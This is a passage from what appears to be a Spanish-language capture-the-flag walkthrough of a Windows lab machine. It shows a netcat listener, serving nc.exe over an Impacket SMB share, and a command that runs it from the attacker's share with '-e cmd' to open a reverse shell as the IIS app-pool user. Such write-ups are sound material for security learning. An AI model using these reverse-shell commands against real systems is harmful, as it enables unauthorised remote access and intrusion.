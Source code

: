 Ahora que tenemos capacidad de lograr ejecutar comandos arbitrarios en el sistema, el siguiente paso será lograr obtener acceso al equipo. Por lo tanto, nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

En nuestro equipo local, deberemos de disponer del binario de `nc.exe` en el cual compartiremos a través de un servidor `SMB`.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Thu Feb 20 23:09:09 2025  nc.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ejecutaremos el siguiente comando para ejecutar el `nc.exe` que estamos compartiendo a través de nuestro recurso compartido y le indicaremos que nos proporcione una consola `CMD` a nuestro equipo atacante.

```bash
\\10.10.16.3\smbFolder\nc.exe -e cmd 10.10.16.3 443
```

<figure><img src="../../.gitbook/assets/imagen (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Verificamos que finalmente hemos logrado acceso al sistema y nos encontramos con el usuario `iis apppool\web`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.5] 49167
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
